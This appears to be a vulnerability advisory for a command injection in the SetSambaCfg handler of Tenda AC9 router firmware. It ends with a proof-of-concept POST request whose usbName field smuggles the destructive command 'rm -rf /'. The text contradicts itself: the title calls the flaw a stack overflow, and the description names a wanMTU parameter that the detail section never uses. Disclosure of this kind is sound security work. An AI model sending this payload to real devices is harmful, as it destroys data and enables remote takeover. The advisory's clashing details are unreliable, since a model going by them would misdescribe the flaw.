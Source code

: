 # Tenda AC9 V1.0 V15.03.05.14_multi stack overflow vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the wanMTU parameter of route /goform/SetSambaCfg has a Command Injection Vulnerability, which may lead to remote arbitrary code execution.
## Vulnerability Detail
In the /goform/SetSambaCfg back-end handler formSetSamba, the HTTP POST request parameters action and usbName are obtained by the function sub_2B9D4. When the content of the parameter "action" is "del", the parameter "usbName" is concatenated into doSystemCmd with a format string and then executed. An attacker can construct malicious parameters "action" and "usbName" to enable remote code execution.

![img](./img/SetSambaCfg.png)
## Poc
```py
POST /goform/SetSambaCfg HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

action=del&usbName=1; rm -rf /
```
